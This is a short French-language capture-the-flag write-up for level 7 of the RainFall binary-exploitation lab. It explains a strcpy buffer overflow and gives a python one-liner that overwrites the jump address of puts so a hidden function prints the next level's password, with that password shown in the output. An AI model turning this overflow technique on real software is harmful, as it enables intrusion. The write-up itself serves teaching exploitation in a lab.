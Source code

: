 # Level 7

En ouvrant le level 7 avec cuter on remarque que le programme prend 2 argument qu'il fait passer dans des strcpy avec des destination de taille fix donc il y a possibiliter d'overflow les buffer comme a l'exercice precedant. On remarque egalement qu'il y a un fonction m pas appler qui cat directement le mot de passe du level 8. Donc le but est comme dans lexercie predant d'apeler cette derniere.

On peut constater en tatonant que le permier argument segfault lorsqu'on luis donne un chaine de ≥ 20 charater.
```
level7@RainFall:~$ ./level7 ssssssssssssssssssss test
~~
level7@RainFall:~$ ./level7 sssssssssssssssssssss test
Segmentation fault (core dumped)
level7@RainFall:~$ 
```
Donc il faut générer un buffer overflow sur le premier argument et luis passer `0x08049928` qui est l'adresse de `JUMP` .

A la fin du main est appele la fonction puts, on va donc recuperer l'adresse du jmp de cette fonction pour lui dire de lancer la fonction m a la place. Ce que nous donne : 

- argv[1] : overflow + adresse du jmp 
- argv[2] : adresse de la fonction m

```
level7@RainFall:~$  ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1624581651
level7@RainFall:~$ 
```
